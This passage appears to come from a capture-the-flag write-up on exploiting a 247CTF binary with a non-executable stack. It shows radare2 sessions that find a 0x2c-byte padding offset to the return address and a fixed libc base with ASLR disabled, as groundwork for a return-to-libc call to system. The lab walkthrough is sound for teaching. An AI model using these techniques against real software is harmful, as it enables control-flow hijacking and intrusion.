 ```shell
$ r2 -d non_executable_stack
Process with PID 2381 started...
= attach 2381 2381
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
glibc.fc_offset = 0x00148
    -- Most likely your core dump fell into a blackhole, can't see it.
[0xf7fd50b0]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0xf7fd50b0]> db 0x0804853c
[0xf7fd50b0]> dc
Enter the secret password:
kk
Incorrect secret password!
hit breakpoint at: 804853c
[0x0804853c]> px -0x2c @ esp
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffd1d0  6b6b 00ff 9096 fef7 90f8 faf7 00a0 0408  kk..............
0xffffd1e0  00e0 faf7 00e0 faf7 08d2 ffff 7c85 0408  ............|...
0xffffd1f0  5886 0408 00a0 0408 08d2 ffff            X...........
[0x0804853c]>
```

Our input starts `0x2c` before, so this is the amount of padding we need to provide and, then, the return address of the function we want to execute (`system` in this case). In addition, thanks to deactivating ASLR, `libc` will be loaded in the same base address during multiple executions (`0xf7dd4000` in the example):

```shell
[0x0804853c]> dmm
0x08048000 0x08049000  /home/urzu/247ctf/pwn/non_executable_stack
0xf7dd4000 0xf7ded000  /usr/lib32/libc-2.28.so
0xf7fd4000 0xf7fd5000  /usr/lib32/ld-2.28.so
[0x0804853c]> ood
PTRACE_CONT: No such process
child received signal 9
Process with PID 2337 started...
= attach 2337 2337
File dbg:///home/urzu/247ctf/pwn/non_executable_stack  reopened in read-write mode
2337
[0xf7fd50b0]> dc
Enter the secret password:
kk
Incorrect secret password!
[0xf7fd3069]> dmm
0x08048000 0x08049000  /home/urzu/247ctf/pwn/non_executable_stack
0xf7dd4000 0xf7ded000  /usr/lib32/libc-2.28.so
0xf7fd4000 0xf7fd5000  /usr/lib32/ld-2.28.so
[0xf7fd3069]>
```
